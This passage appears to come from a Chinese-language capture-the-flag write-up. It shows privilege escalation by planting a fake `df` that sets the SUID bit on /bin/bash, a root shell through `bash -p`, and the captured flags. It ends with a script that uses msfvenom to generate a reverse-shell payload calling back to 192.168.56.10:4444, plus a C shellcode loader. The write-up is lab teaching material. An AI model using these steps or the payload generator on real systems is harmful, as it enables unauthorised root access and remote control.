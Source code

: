    脚本在执行到 `df -h` 时，会调用我们伪造的 `df` 程序，从而以 `root` 权限执行了 `chmod +s /bin/bash`。

4. 验证 `/bin/bash` 的权限，确认SUID位是否已成功设置。

   ```bash
   echo@Sysadmin:~$ ls -al /bin/bash
   -rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
   ```

   权限位中的 `s` 明确表示SUID位设置成功。

5. 最后，利用这个带有SUID权限的 `bash` 来获取 `root` Shell。`-p` 参数用于确保`bash`在启动时不会因为安全原因放弃由SUID获得的有效用户ID（EUID）。

   ```bash
   echo@Sysadmin:~$ bash -p
   bash-5.0# id
   uid=1000(echo) gid=1000(echo) euid=0(root) egid=0(root) groups=0(root),1000(echo)
   ```

   `euid=0(root)` 的输出确认我们已成功提权至 `root` 用户。

## **4. 获取Flag**

成功获得最高权限后，读取并提交所有的flag文件。

```bash
bash-5.0# cat /root/root.txt /home/echo/user.txt
flag{root-8b8a8b353298f798e3eb8628661617b6}
flag{user-9592f6e02a7abaf9e38c0ef43e868cf3}
```

渗透测试至此顺利完成。

# Sublarge思路

**Sublarge Payload (`a.sh`):**

```c
#!/usr/bin/env bash
LHOST="192.168.56.10"
LPORT="4444"
OUT_C="test.c"

# 1. 生成原始 shellcode
msfvenom -p linux/x64/shell_reverse_tcp \
         LHOST="$LHOST" LPORT="$LPORT" \
         -f raw 2>/dev/null > /tmp/rev.raw
[[ -s /tmp/rev.raw ]] || { echo "[-] msfvenom failed"; exit 1; }

# 2. 用十六进制格式输出
SC_HEX=$(xxd -p -c 1 /tmp/rev.raw | sed 's/^/0x/' | paste -sd',' -)

# 3. 写 C 文件：子进程后台执行
cat > "$OUT_C" <<EOF
int fork(void);
int execve(const char *p,char *const a[],char *const e[]);

int main(void)
{
    if (fork() == 0) {
        unsigned char sc[] = {$SC_HEX};
        ((void(*)())sc)();
    }
    return 0;
}
EOF

echo "[+] Generated $OUT_C (forked)"
```